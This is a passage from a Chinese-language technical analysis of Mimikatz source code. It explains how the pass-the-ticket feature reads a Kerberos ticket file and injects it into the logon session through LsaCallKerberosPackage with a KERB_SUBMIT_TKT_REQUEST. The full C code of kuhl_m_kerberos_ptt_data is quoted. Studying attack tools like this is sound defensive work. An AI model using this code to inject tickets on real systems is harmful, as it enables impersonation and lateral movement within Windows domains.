 ```cpp
        }
        CloseHandle(hFile);
    }
    return reussite;
}
```

可以看到，在 kull\_m\_file\_readGeneric 函数中，如果 isBase64InterceptInput 为 TRUE，则通过 kull\_m\_string\_quick\_base64\_to\_Binary 函数解密 Base64 编码格式的票据，并将解密后的内容保存到 data 中。但是 isBase64InterceptInput 默认为 FALSE，因此将调用 ReadFile 函数将票据内容读取到 data 中。

回到 kuhl\_m\_kerberos\_ptt\_file 函数中，将对 fileData 和 fileSize 调用 kuhl\_m\_kerberos\_ptt\_data 函数，在该函数中执行真正的“票据传递”过程。

跟进 kuhl\_m\_kerberos\_ptt\_data 函数：

- kerberos\\kuhl\_m\_kerberos.c

```cpp
NTSTATUS kuhl_m_kerberos_ptt_data(PVOID data, DWORD dataSize)
{
    NTSTATUS status = STATUS_MEMORY_NOT_ALLOCATED, packageStatus;
    DWORD submitSize, responseSize;
    PKERB_SUBMIT_TKT_REQUEST pKerbSubmit;
    PVOID dumPtr;

    submitSize = sizeof(KERB_SUBMIT_TKT_REQUEST) + dataSize;
    if (pKerbSubmit = (PKERB_SUBMIT_TKT_REQUEST)LocalAlloc(LPTR, submitSize))
    {
        pKerbSubmit->MessageType = KerbSubmitTicketMessage;
        pKerbSubmit->KerbCredSize = dataSize;
        pKerbSubmit->KerbCredOffset = sizeof(KERB_SUBMIT_TKT_REQUEST);
        RtlCopyMemory((PBYTE)pKerbSubmit + pKerbSubmit->KerbCredOffset, data, dataSize);

        status = LsaCallKerberosPackage(pKerbSubmit, submitSize, &dumPtr, &responseSize, &packageStatus);
        if (NT_SUCCESS(status))
        {
            status = packageStatus;
            if (!NT_SUCCESS(status))
                PRINT_ERROR(L"LsaCallAuthenticationPackage KerbSubmitTicketMessage / Package : %08x\n", status);
        }
        else PRINT_ERROR(L"LsaCallAuthenticationPackage KerbSubmitTicketMessage : %08x\n", status);

        LocalFree(pKerbSubmit);
    }
    return status;
}
```

该函数首先声明了一个 KERB\_SUBMIT\_TKT\_REQUEST 结构的指针变量 pKerbSubmit。然后扩展了 KERB\_SUBMIT\_TKT\_REQUEST 结构的大小，如下所示。
